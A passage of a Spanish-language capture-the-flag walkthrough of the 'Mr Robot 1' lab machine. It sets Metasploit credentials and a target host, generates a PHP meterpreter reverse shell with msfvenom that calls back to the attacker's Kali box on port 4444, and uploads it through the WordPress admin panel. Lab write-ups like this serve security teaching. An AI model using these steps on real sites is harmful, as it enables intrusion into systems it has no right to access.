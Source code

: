 Defino el nombre de usuario, la clave y el host remoto.

```bash
set USERNAME elliot
set PASSWORD ER28-0652
set RHOST 10.0.2.18
```

![alt text](../assets/images/mr-robot1/image-31.png)

Creo una shell reversa desde msfvenom que apunte a mi maquina kali y al puerto 4444 con el comando:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.14 LPORT=4444 -f raw > /home/kali/desktop/mi_reverse_shell.php
```

![alt text](../assets/images/mr-robot1/image-33.png)

Con el acceso al panel de administracion de wordpress subo el fichero generado.
